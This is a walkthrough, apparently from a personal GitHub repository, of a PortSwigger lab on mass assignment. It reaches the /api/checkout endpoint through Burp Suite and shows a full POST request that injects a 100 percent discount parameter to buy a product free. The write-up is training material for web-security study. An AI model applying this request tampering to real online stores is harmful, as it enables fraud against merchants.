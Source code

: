 # LAB: Exploiting a mass assignment vulnerability

### Link: [Click Me!](https://portswigger.net/web-security/learning-paths/api-testing/api-testing-mass-assignment-vulnerabilities/api-testing/lab-exploiting-mass-assignment-vulnerability#)

## Task(s):

To solve the lab, find and exploit a mass assignment vulnerability to buy a **Lightweight l33t Leather Jacket**. You can log in to your own account using the following credentials: ```wiener:peter```.

## Instruction(s):

> To solve this lab, you'll need to know:
> 
> - What mass assignment is.
> - Why mass assignment may result in hidden parameters.
> - How to identify hidden parameters.
> - How to exploit mass assignment vulnerabilities.
>
> These points are covered in our API Testing Academy topic.

## Required Apps:
- Burp Suite
- Content Type Converter (**Optional**)

## Let's begin solving it!

The task given on this Lab is not that different from the previous one, but this one requires me to identify hidden parameters and exploit mass assignment vulnerabilities.

I began by opening my **Burp Suite** and **Burp Browser** and quickly navigate to the link given by the Lab. Then I logged in using the credential given on the ```Task(s)``` which is:

> Username: ```wiener```
>
> Password: ```peter```

I then checked the ```HTTP history``` on Burp Suite to see if there are any vulnerabilities but turns out there are none. (shown in the image below)

!["HTTP History"](/WSA(Burp)/LAB-3-Mass-assignment-vulnerabilities/images/1.png)

Because I didn't find any ```/api``` that I can exploit, I will continue by going to ```Homepage``` on the website. In the [previous lab](/WSA(Burp)/LAB-2-Identifying-and-interacting-with-API-endpoints/answer.md), we can find ```/api``` just by browsing through the ```Homepage``` which is not the case on this one. So I had to browse the product named **Lightweight l33t Leather Jacket** because that's the targetted product.

!["HTTP History"](/WSA(Burp)/LAB-3-Mass-assignment-vulnerabilities/images/2.png)

Again, it doesn't give me any exposed ```/api```. Next, I tried to add the product to the cart and proceed to ```My Cart``` button which is located on the top right.

!["My Cart"](/WSA(Burp)/LAB-3-Mass-assignment-vulnerabilities/images/3.png)

After I clicked ```My Cart```, I checked my ```HTTP history``` on Burp Suite and finally got the vulnerable API: ```/api/checkout```.

!["API found"](/WSA(Burp)/LAB-3-Mass-assignment-vulnerabilities/images/4.png)

Now I can investigate ```Request``` and ```Response``` from ```/api/checkout``` which we can all see from the image below:

!["Request and Response"](/WSA(Burp)/LAB-3-Mass-assignment-vulnerabilities/images/5.png)

Few things to take note from the JSON here:
- On **Request**, we can see that it is using ```GET``` method to grab data. We will try to use other methods that are allowed.
- On **Response**, we can see that we have 2 parameters that we can try to manipulate which are ```chosen_discount``` and ```chosen_product```.

Since I already got ```api/checkout```, I will send it to ```Repeater``` to try to use other **HTTP Methods**.

!["OPTIONS Method"](/WSA(Burp)/LAB-3-Mass-assignment-vulnerabilities/images/6.png)

I used ```OPTION``` method and it gives me ```405 Method Not Allowed``` response followed by ```Allow: GET, POST``` which means that I can use ```POST``` to update data.

Since the **Response** I got earlier contains JSON, that means that I will have to generate a JSON Content-type on the request followed by the 2 parameters (```chosen_discount```, ```chosen_product```).

On the code below, I manipulate the ```chosen_discount``` and change the percentage to ```100``` so that there will be no cost for me to buy the product. Take a look the code below for the **Request** and **Response** after I sent it.

### Request:
```
POST /api/checkout HTTP/2
Host: 0a4b00f303c96b5285818aab00ae00a0.web-security-academy.net
Cookie: session=9fQ3cRoxuxtMnR7nr9gtVFumxEOhjzaB
Sec-Ch-Ua: "Chromium";v="125", "Not.A/Brand";v="24"
Sec-Ch-Ua-Mobile: ?0
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/125.0.6422.60 Safari/537.36
Sec-Ch-Ua-Platform: "macOS"
Accept: */*
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: cors
Sec-Fetch-Dest: empty
Referer: https://0a4b00f303c96b5285818aab00ae00a0.web-security-academy.net/cart
Accept-Encoding: gzip, deflate, br
Accept-Language: en-GB,en-US;q=0.9,en;q=0.8
Priority: u=1, i
Content-Type: application/json;charset=UTF-8
Content-Length: 7

{
    "chosen_discount":
    {"percentage":100 
    },
    "chosen_products":[
        {
            "product_id":"1",
            "name":"Lightweight \"l33t\" Leather Jacket",
            "quantity":1,
            "item_price":133700
        }
    ]
}
```

### Response:

```
HTTP/2 201 Created
Location: /cart/order-confirmation?order-confirmed=true
X-Frame-Options: SAMEORIGIN
Content-Length: 0
```

It seems that there are no errors and we can see that the order is confirmed from looking at line 2: ```Location: /cart/order-confirmation?order-confirmed=true```. Now I can refresh the page again and see that there are no more orders and I successfully finished the lab.

# Voila

!["FINISHED"](/WSA(Burp)/LAB-3-Mass-assignment-vulnerabilities/images/7.png)